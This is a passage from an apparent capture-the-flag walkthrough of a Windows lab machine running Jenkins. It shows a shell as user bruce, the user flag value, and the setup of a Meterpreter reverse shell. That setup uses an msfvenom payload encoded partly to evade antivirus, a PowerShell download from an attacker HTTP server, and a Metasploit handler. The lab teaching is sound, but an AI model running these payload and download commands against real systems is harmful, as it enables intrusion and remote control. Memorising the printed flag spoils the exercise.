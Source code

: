     PS C:\Program Files (x86)\Jenkins\workspace\Test>whoami
    alfred\bruce
    ```

### 4 - What is the user.txt flag? 

    PS C:\Program Files (x86)\Jenkins\workspace\Test> cd c:\users\bruce\Desktop

    PS C:\users\bruce\Desktop> type user.txt
    79007a09481963edf2e1321abd9ae2a0

User Flag:79007a09481963edf2e1321abd9ae2a0


## [Task 2] Switching Shells

To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create the a windows meterpreter reverse shell using the following payload

    msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:

    powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"

Before running this program, ensure the handler is set up in metasploit:

    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST your-ip
    set LPORT listening-port
    run

This step uses the metasploit handler to receive the incoming connection from you reverse shell. Once this is running, enter this command to start the reverse shell

    Start-Process "shell-name.exe"

This should spawn a meterpreter shell for you!

### 1 - What is the final size of the exe payload that you generated?

10.10.151.140
inet 10.8.82.167

1. Create Payload:

    msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.82.167 LPORT=5555 -f exe -o scp.exe
